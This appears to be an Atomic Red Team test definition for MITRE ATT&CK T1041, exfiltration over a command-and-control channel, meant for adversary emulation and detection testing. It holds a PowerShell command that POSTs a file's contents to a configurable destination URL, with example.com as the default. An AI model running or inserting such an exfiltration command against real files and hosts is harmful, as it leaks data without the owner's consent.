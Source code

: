 ```yaml
---
tags: [T1041, atomic_test]
filename: "[[T1041 - Exfiltration Over C2 Channel]]"
---
```

# T1041 - Exfiltration Over C2 Channel

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | path | $env:TEMP&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
if(-not (Test-Path #{filepath})){ 
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```






<br/>
